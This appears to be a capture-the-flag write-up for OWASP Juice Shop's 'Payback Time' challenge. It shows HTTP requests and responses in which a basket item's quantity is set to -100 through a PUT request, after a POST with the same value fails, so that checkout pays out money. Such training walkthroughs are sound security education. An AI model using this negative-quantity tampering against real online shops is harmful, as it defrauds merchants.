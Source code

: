 # Payback Time

> Place an order that makes you rich.

Getting a negative quantity of an item into your basket feels like the most obvious way to do this. I found that adding a negative quantity for an item outright did not work.

```
POST /api/BasketItems/ HTTP/1.1
[...]

{"ProductId":26,"BasketId":"7","quantity":-100}
```
```
HTTP/1.1 500 Internal Server Error
[...]

{"message":"internal error","errors":["SQLITE_CONSTRAINT: FOREIGN KEY constraint failed"]}
```

But updating the quantity of an existing item was accepted.

```
PUT /api/BasketItems/6 HTTP/1.1
[...]


{"quantity":-100}
```
```
HTTP/1.1 200 OK
[...]

{"status":"success","data":{"id":6,"quantity":-100,"createdAt":"2018-08-02T03:12:28.362Z","updatedAt":"2018-08-02T03:14:31.980Z","BasketId":5,"ProductId":26}}
```

That's a lot of cash back.

![payback](/img/owasp-juice-shop-v7.3.0/juice050.png)

The challenge says we have to place the order, hopefully there are no sanity checks at checkout.
